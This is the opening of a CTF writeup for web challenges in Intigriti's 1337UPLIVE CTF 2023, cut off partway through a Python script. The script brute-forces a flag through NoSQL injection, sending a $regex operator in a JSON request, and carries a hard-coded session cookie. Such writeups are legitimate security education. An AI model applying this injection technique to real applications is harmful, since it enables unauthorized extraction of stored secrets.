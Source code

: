 ```yaml
---
title: "1337UPLIVE CTF 2023"
description: "Writeup for web challenges in 1337UPLIVE CTF 2023"
summary: "Writeup for web challenges in 1337UPLIVE CTF 2023"
categories: ["Writeup"]
tags: ["Web Exploitation","OSINT","MISC", "CTF"]
#externalUrl: ""
date: 2023-11-20
draft: false
---
```





## Overview
I join with my team (**BKISC**) that participated in this CTF organized by **Intigriti** and got 2nd place 🥳🥳🥳.
![image](https://hackmd.io/_uploads/SkdTGMPEp.png)

## Writeup
### **1. CTFC**
- **Author:** Jopraveen
- **Caterogy:** Web
- **Description:** I'm excited to share my minimal CTF platform with you all, take a look! btw it's ImPAWSIBLE to solve all challenges 😺

![image](https://hackmd.io/_uploads/ryfoXGDEp.png)

**Solution:**
After register and login to homepage, I found 2 place that submit flag can be cracktation and another is base64 decode. But this is not the flag i need so i open burp and send request. 
![image](https://hackmd.io/_uploads/BJJljMPNa.png)
Idea:
> - Flag maybe in id challenge 3.
> - I don't know the flag but can brute it with **$regex**
> - The format flag is "INTIGRITI{}"

Final script:
```python
import requests
import string

url = 'https://ctfc.ctf.intigriti.io/submit_flag'

flag = "INTIGRITI{"

headers = {
    'Cookie': 'session=eyJ1c2VyIjp7Il9pZCI6ImZkZDAwOGZmNmE0ZjQxN2JhOTI3ZTJiZTkyZWVjYzk5IiwidXNlcm5hbWUiOiJhIn19.ZVmVAQ.UxOlP1pYJWttIh4U-MQimuCwaDc',
    'Content-Type': 'application/json',
    'Accept': '*/*',
    'Origin': 'https://ctfc.ctf.intigriti.io',
    'Referer': 'https://ctfc.ctf.intigriti.io/',
}

for i in string.ascii_letters + string.digits + "_{}*,.@#%&":
    json_payload = {
        "_id": "_id:3",
        "challenge_flag": {
            "$regex": f"^{flag+i}.*"
```